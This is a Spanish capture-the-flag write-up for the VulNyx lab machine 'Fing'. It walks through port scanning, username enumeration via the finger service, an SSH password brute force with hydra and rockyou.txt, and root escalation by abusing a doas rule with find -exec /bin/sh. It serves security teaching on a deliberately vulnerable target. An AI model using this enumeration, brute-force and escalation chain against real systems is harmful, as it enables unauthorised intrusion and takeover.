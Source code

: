 # WriteUp: Fing | VulNyx

## <mark style="color:yellow;">Fase 1: Reconocimiento y Enumeración</mark>

Mi proceso para abordar esta máquina comenzó, como es habitual, con una fase de reconocimiento. Ejecuté un escaneo rápido con `nmap` para identificar todos los puertos TCP abiertos y obtener una visión general de la superficie de ataque.

```bash
nmap -n -Pn -sS -p- --min-rate 5000 192.168.56.27

PORT   STATE SERVICE
22/tcp open  ssh
79/tcp open  finger
80/tcp open  http
```

Con los puertos abiertos identificados (SSH, Finger y HTTP), realicé un segundo escaneo, esta vez más detallado, para determinar las versiones de los servicios en ejecución y recopilar cualquier información adicional que `nmap` pudiera ofrecerme.

```bash
nmap -sVC -p22,79,80 192.168.56.27

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 f0:e6:24:fb:9e:b0:7a:1a:bd:f7:b1:85:23:7f:b1:6f (RSA)
|   256 99:c8:74:31:45:10:58:b0:ce:cc:63:b4:7a:82:57:3d (ECDSA)
|_  256 60:da:3e:31:38:fa:b5:49:ab:48:c3:43:2c:9f:d1:32 (ED25519)
79/tcp open  finger  Linux fingerd
|_finger: No one logged on.\x0D
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Apache2 Debian Default Page: It works
```

## <mark style="color:yellow;">Fase 2: Análisis de Vectores de Ataque</mark>

Inspeccioné primero el servidor web en el puerto 80, pero solo encontré la página de bienvenida por defecto de Apache, sin ningún contenido de interés.

<figure><img src="../../.gitbook/assets/Pasted image 20250930010543.png" alt=""><figcaption></figcaption></figure>

El servicio que realmente captó mi atención fue `finger` en el puerto 79. No estaba familiarizado con él, así que investigué su propósito. Descubrí que Finger es un protocolo de red muy antiguo (data de los años 70) que permite a los usuarios consultar información sobre otros usuarios en un sistema remoto. Aunque hoy en día está en desuso por razones de seguridad, si está mal configurado puede revelar nombres de usuario válidos, directorios de inicio, la última fecha de conexión y otros metadatos útiles para un atacante.

Con esta información, mi primer paso fue intentar enumerar usuarios comunes para ver si el servicio me devolvía alguna información.

```bash
# Probé con una lista de nombres de usuario genéricos
for u in root admin user test guest tom jerry alice bob; do
  echo "== $u =="; finger $u@192.168.56.27;
done
```

Este simple bucle me dio mi primera pista importante.

```bash
== root ==
Login: root                           Name: root
Directory: /root                       Shell: /bin/bash
Last login Fri Jul 14 17:02 2023 (CEST) on tty1
No mail.
No Plan.
== admin ==
finger: admin: no such user.
...
```

El servicio confirmó la existencia del usuario `root`, pero los demás no existían. Atacar al usuario `root` directamente por SSH es, por lo general, una mala estrategia, ya que las configuraciones de seguridad modernas suelen restringir o monitorear intensivamente los inicios de sesión de este superusuario. Por lo tanto, decidí que mi mejor opción era encontrar un usuario con privilegios más bajos.

Para ello, automaticé la enumeración de usuarios utilizando una lista de nombres comunes de SecLists. El protocolo `finger` es ideal para esto, ya que me permite verificar la existencia de usuarios sin interactuar directamente con el servicio SSH, evitando así posibles bloqueos por parte de herramientas como `fail2ban`.

```bash
HOST=192.168.56.27
WORDLIST=/usr/share/seclists/Usernames/Names/names.txt

while read -r user; do
  printf "\n== %s ==\n" "$user"
  finger "${user}"@"${HOST}"
done < "$WORDLIST" > resultados_finger.txt
```

Tras dejar el script corriendo, revisé el archivo de resultados y busqué la palabra "Login", lo que me llevó a un descubrimiento clave:

```bash
== adam ==
Login: adam                           Name: adam
Directory: /home/adam                 Shell: /bin/bash
Last login Sun Apr 23 13:21 2023 (CEST) on pts/0 from 192.168.1.10
No mail.
No Plan.
```

¡Había encontrado un usuario válido: adam!

## <mark style="color:yellow;">Fase 3: Acceso Inicial vía SSH</mark>

Con un nombre de usuario confirmado, el siguiente paso lógico era realizar un ataque de fuerza bruta contra el servicio SSH para adivinar la contraseña de `adam`. Para esta tarea, utilicé `hydra` y el famoso diccionario `rockyou.txt`.

```bash
hydra -l adam -P /usr/share/wordlists/rockyou.txt 192.168.56.27 ssh
...
[22][ssh] host: 192.168.56.27   login: adam   password: XXXXXXXXXX
```

El ataque fue exitoso. Con la contraseña en mi poder, me conecté a la máquina a través de SSH.

```bash
ssh adam@192.168.56.27
...
adam@fing:~$ id
uid=1000(adam) gid=1000(adam) grupos=1000(adam)
```

## <mark style="color:yellow;">Fase 4: Escalada de Privilegios con</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`doas`</mark>

Una vez dentro, mi objetivo era escalar privilegios a `root`. Seguí mi metodología estándar de enumeración local, comenzando por verificar los permisos de `sudo` y buscando binarios con el bit SUID activado.

```bash
sudo -l
# No obtuve resultados.

find / -perm -u=s -type f 2>/dev/null
# RESULTADO
/usr/bin/mount
/usr/bin/su
...
/usr/bin/doas
...
```

La lista de binarios SUID contenía una entrada que me llamó poderosamente la atención: `/usr/bin/doas`. Nunca lo había visto, así que investigué sobre él. Aprendí que `doas` (Do as) es una alternativa moderna y más simple a `sudo`, originaria del proyecto OpenBSD. Su comportamiento se controla a través de un único archivo de configuración: `/etc/doas.conf`. Una mala configuración en este archivo podría permitirme ejecutar comandos como otro usuario, incluyendo `root`.

Decidí revisar el contenido de ese archivo de configuración.

```bash
adam@fing:/$ cat /etc/doas.conf
permit nopass keepenv adam as root cmd /usr/bin/find
```

¡Jackpot! La configuración era explícita y muy permisiva. La línea `permit nopass keepenv adam as root cmd /usr/bin/find` significa que mi usuario, `adam`, tiene permitido ejecutar el comando `/usr/bin/find` como el usuario `root` sin necesidad de introducir una contraseña (`nopass`).

El comando `find` es extremadamente potente y una de sus características más útiles (y peligrosas, en este caso) es la opción `-exec`, que permite ejecutar cualquier otro comando sobre los archivos que encuentra. Dado que `doas` me permitiría ejecutar `find` como `root`, cualquier comando que yo ejecutara a través de `-exec` también se ejecutaría como `root`.

Aproveché esta vulnerabilidad para obtener una shell de root interactiva.

```bash
adam@fing:/$ doas /usr/bin/find / -exec /bin/sh -i \;
```

Este comando le dice a `doas` que ejecute `find` como `root`. A su vez, `find` busca desde el directorio raíz (`/`) y, para cada resultado, ejecuta (`-exec`) una shell interactiva (`/bin/sh -i`). El resultado fue inmediato.

```bash
# id
uid=0(root) gid=0(root) grupos=0(root)
# cd /root
# cat root.txt
...
```

Con esto, obtuve una shell de `root`, completando así el compromiso total de la máquina.
